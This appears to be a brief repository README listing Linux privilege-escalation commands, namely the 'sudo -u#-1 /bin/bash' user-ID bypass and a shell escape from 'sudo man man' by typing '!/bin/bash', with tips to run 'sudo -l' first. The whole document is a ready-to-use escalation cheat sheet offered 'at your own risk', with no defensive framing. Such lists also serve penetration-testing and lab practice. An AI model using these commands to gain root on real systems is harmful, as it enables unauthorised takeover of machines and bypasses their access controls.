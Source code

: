 # A collection of small linux priv esc commands
use at your own risk

---
`sudo -u#-1 /bin/bash` \
You can use sudo -l to specify what you can run as sudo

---
`sudo man man` then type `!/bin/bash` \
use `sudo -l` to see what programs you can sudo\
This works if you can only sudo some commands, and they use the linux pagnation thing
